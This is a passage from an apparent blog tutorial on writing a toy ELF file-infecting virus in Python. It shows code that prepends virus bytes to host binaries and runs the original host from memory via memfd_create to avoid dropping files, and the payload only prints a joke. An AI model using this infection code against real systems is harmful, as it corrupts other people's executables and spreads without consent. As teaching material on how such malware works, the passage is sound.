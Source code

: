 We start by defining some constants. First off, we _definitely_ want to put our virus under quarantine. The `DARK_MARK` in line **7** is a new concept. It's going to help us identify already infected files.
Lastly, we have our hardcoded `VIRUS_SIZE`. We'll talk about it in a minute.

The two functions `is_elf()` and `is_infected()` use the constants to check for the `ELF` magic and the infection mark respectively.

Next up is our infection routine:

```python { linenos=true, linenostart=15, hl_lines=["8"] }
def infect(path):
    print("[+] About to infect", path)
    with open(path, "rb") as host:
        host_data = host.read()
    with open(sys.argv[0], "rb") as virus
        virus_data = virus.read(VIRUS_SIZE)
    with open(path, "wb") as infected:
        infected.write(virus_data + host_data)
```

We cut the virus bytes from the currently executing binary[^fn:2] (which could be the virus itself or an already infected binary), prepend them to the _not yet infected_ file's bytes and overwrite the file (identified by its `path`) with the whole thing in line **22**.

The next function has a little bit of fancyness going on. In order to appreciate it, allow me to make a quick detour:

There are a couple of ways to run the host binary on `Linux`. We could create a temporary file, write the host bytes into it and execute it via one of the `exec()` functions. This approach works, but it's just not _fancy_ enough. While researching, I got the feeling that "dropping a file" is frowned upon. Because we too want to be cool kids, there has to be another way.

Well, of course there is with over 300 system calls! One of those is `memfd_create()`. Let's have a look at its [description](https://man7.org/linux/man-pages/man2/memfd_create.2.html):

> memfd_create() creates an anonymous file and returns a file descriptor that refers to it.
> The file behaves like a regular file, and so can be modified, truncated, memory-mapped, and so on.
> However, unlike a regular file, it lives in RAM and has a volatile backing storage.
> Once all references to the file are dropped, it is automatically released.
> Anonymous memory is used for all backing pages of the file.

Look at us hot shot virus authors. Being really stealthy and all that! Obviously I jest[^fn:3], I have no clue about intrusion detection systems and such. But that's besides the point, because this right here is merely about discovering and trying new things.

But wait a second, we're getting ahead of ourselves. Are we even able to try it? We're writing `Python`, after all. It _does_ have the wonderful `os` [module](https://docs.python.org/3/library/os.html). But does said module have a wrapper around `memfd_create()`?

You know, that's what they call a trick question. `Python`, of course, has _everything_. Don't you ever doubt it again!

```python { linenos=true, linenostart=23, hl_lines=["3","8","10"] }
def run_host():
    print("[+] Creating in-memory file")
    fd = os.memfd_create("doomsday_preppers")
    print("[+] File descriptor with number ", fd)
    with open(sys.argv[0], "rb") as everything:
        host_data = everything.read()[VIRUS_SIZE:]
    with open(fd, "wb") as mem_host:
        mem_host.write(host_data)
        print("[+] Executing host from memory")
        os.execve(fd, sys.argv, {})

def payload():
    print("[+] Executing payload")
    print("Attention, toilet paper tussle in progress!")
```

[^fn:1]: A small nod to the wonderful [DJ Smokey](https://soundcloud.com/smoke-gang-beatz/corona-doomsday-preppers-w-dj-smokey-soudiere-dj-kraft-dinna).
[^fn:2]: That's precisely why we need to keep track of the `VIRUS_SIZE`.
[^fn:3]: 🎩
[^fn:4]: Which conveniently lets us [specify](https://docs.python.org/3/library/os.html#os.execve) a file descriptor instead of a path for the file to be executed since `Python 3.3`.
[^fn:5]: It's _not_ the lack of error handling. That's missing intentionally so that things stay readable.
[^fn:6]: That doesn't mean there are no viruses in script form. Have a look at this [talk](https://www.youtube.com/watch?v=2Ra1CCG8Guo) by Ben Dechrai.
[^fn:7]: <https://www.youtube.com/watch?v=4jLT7GQYNhI&t=90s>
[^fn:8]: I'm not being overmodest, I really have no clue.
[^fn:9]: You can find it [here](https://sourceforge.net/projects/elftoolchain/).